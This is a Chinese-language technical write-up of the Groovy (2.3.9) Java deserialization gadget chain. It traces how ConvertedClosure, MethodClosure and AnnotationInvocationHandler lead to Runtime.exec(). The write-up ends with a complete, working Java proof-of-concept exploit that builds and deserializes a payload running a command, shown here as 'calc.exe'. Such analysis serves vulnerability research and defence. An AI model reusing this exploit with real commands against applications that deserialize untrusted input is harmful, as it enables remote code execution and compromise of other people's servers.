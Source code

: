 - [Groovy Gadget](#groovy-gadget)
  - [依赖](#依赖)
  - [Groovy](#groovy)
    - [ConvertedClosure](#convertedclosure)
  - [GadgetChain](#gadgetchain)
  - [POC](#poc)

# Groovy Gadget
## 依赖
`org.codehaus.groovy:groovy:2.3.9`
## Groovy
### ConvertedClosure
在Groovy中存在一个ConvertedClosure代理类，其invoke方法继承于父类，如下  
![](img/14-40-49.png)  
其中会对不应该被代理的的对象和方法进行过滤，最后会返回子类自己实现的invokeCustom方法中。   
![](img/14-45-05.png)  
这里getDelegate()获取的就是ConvertedClosure构造方法的第一个参数对象，调用其call方法，其中`groovy/lang/Closure.java`的call方法如下。   
![](img/14-47-03.png)
最终会进入到MetaClassImpl的invokeMethod方法中，其中会调用Groovy的DGM类中，DGM类是Groovy对平常反射调用的封装类。  
![](img/15-04-51.png)  
最后在dgm$748中通过 ProcessGroovyMethods.execute((String)var1);执行Runtime.exec()。  
![](img/15-06-33.png)  
![](img/15-06-09.png)  
## GadgetChain
还需要一个入口来调用invoke方法，而调用被代理对象的任意方法都会由代理类的invoke方法来调用目的方法，所以只需要找到一个readObject方法中可以触发可控对象的任意方法即可，常用的组合为AnnotationInvocationHandler+Map。
在`AnnotationInvocationHandler#readObject`中会循环调用AnnotationInvocationHandler构造方法第二个Map参数的entrySet方法。  
![](img/15-14-38.png)  
![](img/15-14-48.png)  
最终的GadgetChain則是
```
AnnotationInvocationHandler#readObject()
Map#entrySet()
ConvertedClosure#invoke()
dgm$748#doMethodInvoke()
ProcessGroovyMethods#execute()
Runtime.getRuntime()#exec()
```
## POC
```java
public class Groovy {
    public static void main(String[] args) throws Exception {
        Object object = getObject();
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(object);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
    }



    public static Object getObject() throws Exception {
        String command = "calc.exe";
        final ConvertedClosure closure = new ConvertedClosure(new MethodClosure(command, "execute"), "entrySet");
        final Class<?>[] interfaces = new Class[]{Map.class};
        final Map proxyMap = (Map) Proxy.newProxyInstance(Groovy.class.getClassLoader(), interfaces, closure);
        final Constructor<?> ctor  = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        final InvocationHandler handler = (InvocationHandler) ctor.newInstance(Override.class,proxyMap);
        return handler;
    }
}
```
